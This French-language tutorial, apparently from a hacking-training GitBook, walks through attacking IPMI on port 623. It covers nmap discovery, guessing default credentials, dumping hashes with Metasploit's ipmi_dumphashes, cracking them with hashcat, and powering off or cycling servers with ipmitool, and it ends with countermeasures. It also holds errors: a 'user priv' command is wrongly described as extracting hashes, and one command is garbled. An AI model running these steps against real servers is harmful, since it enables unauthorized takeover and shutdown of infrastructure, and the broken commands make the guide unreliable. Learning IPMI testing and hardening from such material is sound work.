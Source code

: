 # IPMI

### **IPMI - Guide Complet**

***

⚠️ **Avertissement :** Ce contenu est strictement destiné à un usage éducatif et éthique dans le domaine de la cybersécurité. Toute utilisation illégale ou malveillante est interdite et engage la seule responsabilité de l’utilisateur.

***

### **Introduction**

Le protocole **IPMI (Intelligent Platform Management Interface)** permet la gestion des serveurs à distance, notamment via des fonctions comme l’accès à la console, le redémarrage ou la surveillance matérielle. Cependant, ce protocole est souvent mal configuré, laissant des points d’entrée exploitables pour des attaques. Ce guide explore les techniques d'énumération, d'interaction, et d'exploitation d'IPMI dans un cadre légal et éthique.

***

### **🚀 Étape 1 : Préparer l'Environnement**

**1.1 Identifier le Port IPMI**

IPMI utilise généralement le port **623 (UDP)** pour la communication. Pour identifier les services IPMI actifs, utilisez **Nmap** :

```bash
nmap -p 623 -sU -sV <target>
```

**Exemple de sortie :**

```arduino
623/udp open  ipmi-rmcp  IPMI 2.0
```

**Explications :**

* `623` : Port par défaut d'IPMI.
* `ipmi-rmcp` : Remote Management Control Protocol, utilisé par IPMI.

***

**1.2 Pré-requis**

* Un système Linux avec des outils comme **ipmitool**, **Impacket**, ou **Metasploit**.
* Les permissions root pour exécuter certaines commandes réseau.

***

### **🛠️ Étape 2 : Énumération IPMI**

**2.1 Utiliser ipmitool pour Lister les Informations**

**ipmitool** est l’outil standard pour interagir avec IPMI.

1.  **Installer ipmitool** : Sur une distribution Debian/Ubuntu :

    ```bash
    sudo apt install ipmitool
    ```
2.  **Découvrir le Serveur BMC (Baseboard Management Controller)** : Utilisez `ipmitool` pour interroger la cible :

    ```bash
    ipmitool -I lanplus -H <target> -U <username> -P <password> chassis status
    ```

    **Exemple** :

    ```bash
    basipmitool -I lanplus -H 192.168.1.10 -U admin -P admin chassis status
    ```

    **Résultat attendu** :

    ```yaml
    System Power : on
    Power Overload : false
    Main Power Fault : false
    ```

***

**2.2 Énumération avec Nmap**

Utilisez les scripts NSE de Nmap pour obtenir des informations sur IPMI :

```bash
nmap -sU -p 623 --script ipmi-* <target>
```

**Exemple** :

```bash
nmap -sU -p 623 --script ipmi-version <target>
```

***

**2.3 Tester des Comptes par Défaut**

Les identifiants par défaut sont souvent laissés activés sur IPMI. Essayez :

* **Nom d’utilisateur** : `admin`
* **Mot de passe** : `admin`, `password`, ou vide.

***

### **🔍 Étape 3 : Exploitation de Failles IPMI**

**3.1 Extraction des Hash avec ipmitool**

IPMI 2.0 permet parfois d’extraire les hash des utilisateurs. Si vous avez accès à un compte valide :

```bash
ipmitool -I lanplus -H <target> -U <username> -P <password> user list
```

**Exemple de sortie** :

```arduino
ID  Name         Access  Authentication  Privilege
1   admin        true    MD5             ADMINISTRATOR
```

Ensuite, pour extraire les hash :

```bash
ipmitool -I lanplus -H <target> -U <username> -P <password> user priv <ID> ADMINISTRATOR
```

**3.2 Craquer les Hash**

Utilisez **hashcat** pour casser les hash IPMI :

```bash
hashcat -m 7300 hash.txt wordlist.txt
```

**Explications :**

* `-m 7300` : Spécifie le mode IPMI pour hashcat.

***

**3.3 Exploitation avec Metasploit**

**Metasploit** dispose de modules pour IPMI.

1.  **Scanner IPMI** :

    ```bash
    msfconsole
    use auxiliary/scanner/ipmi/ipmi_version
    set RHOSTS <target>
    run
    ```
2.  **Exploitation Directe** : Si le module détecte une vulnérabilité, utilisez :

    ```bash
    use auxiliary/scanner/ipmi/ipmi_dumphashes
    set RHOSTS <target>
    run
    ```

***

**3.4 Contrôle à Distance**

Avec des identifiants valides, vous pouvez contrôler le système :

1.  Allumer/Éteindre le serveur :

    ```bash
    ipmitool -I lanplus -H <target> -U <username> -P <password> power on
    ipmitool -I lanplus -H <target> -U <username> -P <password> power off
    ```
2.  Redémarrer le serveur :

    ```bash
    ipmitool -I lanplus -H <target> -U <username> -P <password> power cycle
    ```

***

### **🔒 Étape 4 : Contre-Mesures et Sécurisation**

**4.1 Restreindre l’Accès IPMI**

* Configurez un pare-feu pour limiter l’accès au port **623** uniquement aux IP autorisées.

**4.2 Désactiver les Comptes Par Défaut**

* Supprimez ou désactivez les comptes par défaut comme `admin`.

**4.3 Activer la Sécurisation Chiffrée**

* Utilisez **LAN+** pour sécuriser les connexions et désactivez les connexions non chiffrées.

**4.4 Auditer les Logs**

*   Surveillez les connexions IPMI pour détecter des activités suspectes :

    ```bash
    ipmitool sel list
    ```

***

### **Résumé des Commandes Clés**

| Commande / outil                                | Description                                |
| ----------------------------------------------- | ------------------------------------------ |
| `ipmitool -I lanplus ... chassis status`        | Obtenir le statut du serveur via IPMI.     |
| `nmap -sU -p 623 --script ipmi-*`               | Énumérer les services IPMI avec Nmap.      |
| `ipmitool -I lanplus ... user list`             | Lister les utilisateurs IPMI.              |
| `hashcat -m 7300 hash.txt wordlist.txt`         | Craquer les hash IPMI extraits.            |
| `msfconsole ... use auxiliary/scanner/ipmi/...` | Scanner ou exploiter IPMI avec Metasploit. |

***

#### **Conclusion**

Le protocole IPMI, bien qu’utile pour la gestion des serveurs, peut présenter des failles critiques s’il est mal configuré. Ce guide fournit une méthodologie complète pour énumérer, interagir et exploiter IPMI dans un cadre légal et éthique. Suivez également les contre-mesures pour sécuriser vos systèmes et éviter les abus.

***

**Liens utiles :**

* [Mentions légales](https://dika-1.gitbook.io/road-to-hacker/mentions-legales)
* [Politique de confidentialité](https://dika-1.gitbook.io/road-to-hacker/politique-de-confidentialite)
* [Contactez-nous](mailto:dika-road-to-hacker@protonmail.com)
